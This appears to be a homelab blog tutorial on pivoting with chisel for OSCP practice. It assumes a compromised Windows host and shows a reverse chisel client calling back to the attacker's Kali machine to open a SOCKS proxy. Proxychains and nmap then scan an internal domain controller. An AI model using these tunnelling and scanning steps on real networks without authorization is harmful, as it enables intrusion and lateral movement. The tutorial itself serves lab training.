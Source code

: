 ```yaml
---
layout: post
title: 'Pivoting with Chisel'
date: '2022-11-8 19:21:00 +0100'
categories: [Tutorial, Homelab]
tags: [linux, windows, active-directory, oscp, pentesting, tutorial, ctf, chisel, tunneling, homelab, kali]
---
```


_This is the first in a series of tutorials focused on network pivoting and port-forwarding for the OSCP. In future posts, I will cover the use of a pivot to transfer files, and perform exploitation._

In this tutorial, we are covering a scenario where we have network access a to single Windows domain-joined system (**Client A**) from our Kali machine. **Client A** has two network interfaces, the one on which our Kali machine has access, and the second one facing an internal network, where the rest of the domain-joined systems reside, including the domain controller. We do not have direct access to this internal network from Kali. Our goal is therefore to use **Client A** as a pivot point into the the internal network, allowing us to perform **Nmap** scans and other actions against all the systems in the domain.

To achieve this, we will be using the tool [chisel](https://github.com/jpillora/chisel).

![ad-domain](/assets/img/chisel/domain.png)

## What is Chisel? A brief overview

Chisel can set up TCP/UDP tunnels over HTTP, and secures them using SSH. The chisel binary includes both the server and client, with versions available for both Linux and Windows which can interact. According to the chisel [github](https://github.com/jpillora/chisel) page:

> Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

## Scenario

Here I will explain our setup in a little more detail:

![ad-domain](/assets/img/chisel/domain.png)

All machines in the example are running on VMWare Workstation. We have a small Active Directory domain, comprised of three machines. A domain controller (Windows server 2019) and two Windows client machines (Windows 10 Enterprise). We also have our 'attacker' machine, running Kali Linux, outside the domain. All machines in the domain are on the same __host-only__ network, `10.10.10.0/24`. However, **Client A** has two network interfaces, the second of which is on the `192.168.136.0/24` __host-only__ network, where our Kali system also resides. From our Kali system, we can therefore ping, scan, and potentially exploit **Client A**. It is our pivot point into the domain. 

For this tutorial, we will assume that we have already exploited and gained a SYSTEM level shell on **Client A**. Our goal here is simply to gain the ability to scan the other machines on the internal `10.10.10.0/24` network, to which we have no direct access from Kali.

In order to do this, we have already transferred [chisel.exe](https://github.com/jpillora/chisel/releases) to **Client A** (see my [File Transfer](https://dev-0x0/github.io/tags/file-transfer/) tutorials), which we will use to set up a **reverse SOCKS proxy**, allowing us to **Nmap** scan the internal network machines (**Client B** and the **Domain Controller**) through the **proxychains** tool on Kali.

If all this seems confusing, fear not, we will take it step by step, and I will try to keep things concise from here!

## What we need to do

1. Open `/etc/proxychains4.conf` on Kali and make an entry for a SOCKS5 proxy.
2. On Kali, start our **chisel** reverse proxy server.
3. On **Client A**, connect the **chisel** client back to the server.
4. Use the proxy by sending our tools (**Nmap** etc.) through **proxychains**.

## Prerequisites

1. Install **chisel** on Kali Linux, if not already installed ([installation](https://github.com/jpillora/chisel#install))
2. Get the **chisel** Windows binary ([available here](https://github.com/jpillora/chisel/releases)). The download has a name like `chisel_1.7.7_windows_amd64.gz`. I have renamed the actual binary to *chisel.exe* for convenience.
3. A lab setup to practice on. As mentioned above, I am working on a tutorial for this.

## Step 1: Editing /etc/proxychains4.conf

According to the [proxychains](https://github.com/haad/proxychains) github page:

> ProxyChains is a UNIX program, that hooks network-related libc functions in dynamically linked programs via a preloaded DLL and redirects the connections through SOCKS4a/5 or HTTP proxies.

Great. We use the `proxychains4.conf` file to tell it about our proxy, then we can run tools through the proxy with a command like:

`sudo proxychains [COMMMAND]`

We use the following entry, which we put in the **[ProxyList]** section at the end of the file. 

**Important**: We should make sure our proxy entry is the only uncommented proxy here. Depending on other settings in the file, we may run into issues otherwise.

SOCKS5 proxy entry:

`sudo vim /etc/proxychains4.conf`

> socks5 127.0.0.1 1080

![proxychains.conf](/assets/img/chisel/proxychains-conf.png)


## Step 2: Starting up Chisel 

![chisel-server](/assets/img/chisel/chisel-server.png)

![chisel-client](/assets/img/chisel/chisel-client.png)

**Commands:**

On Kali (do this first). We start our **chisel server** on port **8000**.

`chisel server --port 8000 --reverse`

On Windows (Client A). We start the **chisel client**, specify the server to connect back to (on Kali), and specify our SOCKS proxy, configured in `proxychains4.conf`.

`chisel.exe client 192.168.136.129:8000 R:1080:socks`

Some **chisel** help:

**chisel server**

![port-help](/assets/img/chisel/port-help.png)
![reverse-help](/assets/img/chisel/reverse-help.png)

**chisel client**

We connect back to our **chisel** server on Kali at `192.168.136.129:8000`, and create the reverse (`R`) SOCKS5 proxy
on port `1080`. Traffic sent through **proxychains** will now be proxied through the client.

On Kali, we can see that port 1080 is now listening on 127.0.0.1

![socks-port](/assets/img/chisel/socks-port.png)

## Step 3: Scanning the internal network

To scan the internal network, we must, as mentioned above, use **proxychains**, so that all our traffic traverses through the proxy. This brings us to an important caveat.

When using **Nmap** through **proxychains** we are restricted to using the less efficient (much slower) **Connect()** scan, which utilises TCP connections (`-sT` option). We must also use the `-Pn` option, which tells **Nmap** to skip host discovery (no ping). For this reason, it is often more practical to use the `--top-ports` **Nmap** option for initial scans, rather than scanning the entire port range.

Since I know the IP addresses of the systems on the internal network, below is a port scan of the **Domain Controller**. 

**Nmap command with proxychains:**

`sudo proxychains -q nmap -Pn -sT --top-ports 100 --open -T4 10.10.10.128`

The `-q` option stops **proxychains** from outputting all the connections it is making behind the scenes.
Leaving this out can be useful for debugging purposes.

![proxychains](/assets/img/chisel/DC-nmap-scan.png)

## Other commands through proxychains

We can also use other tools through proxychains like **smbclient** shown below, and scripts like **enum4linux-ng.py**.

![smbclient-proxychains](/assets/img/chisel/smbclient-proxychains.png)

## Conclusion

We can now use **Nmap**, and other tools and scripts against the machines in the internal network. In a future tutorial, I will cover setting up port-forwarding with **plink.exe** in order to transfer files from our Kali system to machines in the internal network. I hope this was helpful. Thanks for reading!





